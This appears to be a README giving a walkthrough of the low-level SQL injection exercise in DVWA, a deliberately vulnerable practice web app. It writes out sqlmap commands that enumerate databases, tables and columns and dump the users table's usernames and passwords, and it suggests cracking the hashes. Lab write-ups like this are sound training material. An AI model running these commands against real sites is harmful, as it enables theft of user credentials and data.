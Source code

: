 # DVWA-Solution
DVWA vulnerable web application solutions

SQL Injection - Security Level (LOW)

http://localhost/DVWA/vulnerabilities/sqli/

![Screenshot from 2019-10-04 09-31-39](https://user-images.githubusercontent.com/15997329/66180107-9cd15680-e639-11e9-8c02-fbf504da9417.png)

1. Enter 1 in the text field and intercept the request with the Burpsuite.

![Screenshot from 2019-10-04 09-38-59](https://user-images.githubusercontent.com/15997329/66180348-b3c47880-e63a-11e9-97e3-0e44a3536f00.png)

2. Save the request to a sql.txt file

3. Open terminal and type following query
   
        - sqlmap -r sql.txt --dbs 
      - above query will return Databases names present on the sql server

4. Database name found - dvwadb (note: in user case maybe dvwa)
        
        - sqlmap -r sql.txt -D dvwadb --tables
      - above query will return Tables in the Database selected 

5. Tables found - Users and test

6. Now enumerate for Columns 

        - sqlmap -r sql.txt -D dvwadb -T users --columns
      - by enumerating columns we see username, password which looks intersesting 
      
        - sqlmap -r sql.txt -D dvwadb -T users -C username,password --dump
      - this will dump all the username and password rows

For further enumeration common dictonary based hashes crack use sqlmap further.( Have Fun ;) )
      
